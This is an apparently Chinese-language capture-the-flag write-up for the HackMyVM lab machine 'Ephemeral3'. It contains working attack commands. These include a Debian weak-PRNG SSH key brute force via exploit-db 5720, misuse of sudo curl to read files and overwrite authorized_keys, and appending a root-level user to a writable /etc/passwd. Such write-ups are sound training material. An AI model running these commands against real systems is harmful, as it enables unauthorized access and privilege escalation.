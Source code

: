 # Ephemeral3

2025.02.11 https://hackmyvm.eu/machines/machine.php?vm=Ephemeral3

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先访问 80 web，主页是 apache 默认页面，gobuster 进行扫描，发现: http://192.168.5.40/note.txt

```
Hey! I just generated your keys with OpenSSL. You should be able to use your private key now!
If you have any questions just email me at henry@ephemeral.com
```

发现一个可能存在的用户名 henry

发现另外一个目录: http://192.168.5.40/agency 但是是个静态网页，其他没发现什么有用信息。

还是关注一下 note 中的提示吧，提示生成了私钥，可以用私钥进行登陆，看看 openssl 有没有可以利用的漏洞，之前有一个 Predictable PRNG Brute Force SSH 进行尝试。https://www.exploit-db.com/exploits/5720

```
searchsploit -m linux/remote/5720.py

1. Download https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 (debian_ssh_rsa_2048_x86.tar.bz2)
2. Extract it to a directory
3. Execute the python script
   - something like: python exploit.py /home/hitz/keys 192.168.1.240 root 22 5
```

执行没有找到：

```
python2 5720.py rsa/2048 192.168.5.40 henry 22 5
```

可能是用户名不对，同时在 http://192.168.5.40/agency/ 底部发现了另外一个邮箱：randy@ephemeral.com 发现了另外一个可能的用户名 randy 再次尝试执行脚本：

```
python2 5720.py rsa/2048 192.168.5.40 randy 22 5

找到私钥 0028ca6d22c68ed0a1e3f6f79573100a-31671
```

进行登陆：

```
ssh -i rsa/2048/0028ca6d22c68ed0a1e3f6f79573100a-31671 randy@192.168.5.40
```

sudo -l 发现：(henry) NOPASSWD: /usr/bin/curl 可以先读取 henry 文件夹下的 user flag:

```
randy@ephemeral:/home/henry$ sudo -u henry curl file:///home/henry/user.txt -o /tmp/user.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    33  100    33    0     0  33000      0 --:--:-- --:--:-- --:--:-- 33000
randy@ephemeral:/home/henry$ cat /tmp/user.txt
9c8e36b0cb30f09300592cb56bca0c3a
```

同时利用 curl 将公钥信息写入到 authorized_keys 中：

```
ssh-keygen -t rsa -f ./id_rsa
sudo -u henry curl file:///home/randy/id_rsa.pub -o /home/henry/.ssh/authorized_keys
```

然后使用生成的私钥登陆：

```
ssh -i id_rsa henry@192.168.5.40
henry@ephemeral:~$ id
uid=1001(henry) gid=1001(henry) groups=1001(henry)
```

枚举后发现 /etc/passwd 对 henry 用户可写，直接添加一个超级用户：

```
openssl passwd -1 -salt new 123

echo 'admin:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
su admin
cd /root
cat root.txt
b0a3dec84d09f03615f768c8062cec4d
```
